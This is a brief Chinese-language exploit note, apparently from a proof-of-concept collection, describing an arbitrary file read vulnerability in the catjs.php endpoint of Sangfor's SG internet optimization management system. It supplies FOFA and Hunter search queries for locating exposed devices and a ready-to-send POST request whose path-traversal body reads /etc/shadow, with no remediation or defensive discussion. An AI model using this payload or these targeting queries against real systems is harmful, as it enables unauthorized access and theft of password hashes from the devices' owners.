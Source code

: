 # 深信服 SG上网优化管理系统 catjs.php 任意文件读取漏洞

## 网络测绘

fofa: title=="SANGFOR上网优化管理"

hunter: web.title=="SANGFOR上网优化管理"

## POC / EXP

```
POST /php/catjs.php

["../../../../../../etc/shadow"]
```